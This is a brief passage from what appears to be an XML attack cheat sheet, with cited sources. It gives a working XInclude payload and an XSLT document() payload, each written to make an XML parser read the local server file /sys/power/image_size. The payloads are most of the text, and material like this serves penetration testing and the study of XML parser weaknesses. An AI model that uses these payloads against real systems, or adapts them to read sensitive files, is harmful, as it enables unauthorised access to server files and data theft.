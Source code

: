 [Source](https://blog.netspi.com/playing-content-type-xxe-json-endpoints/#)

#  XInclude Attacks (Morgan, 2014)

```xml
<data xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="/sys/power/image_size"></xi:include></data>
```
  
[Source](http://vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf)  

# XSLT Attacks

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">  
   <xsl:template match="/">  
       <xsl:value-of select="document('/sys/power/image_size')">  
   </xsl:value-of></xsl:template>  
</xsl:stylesheet>
```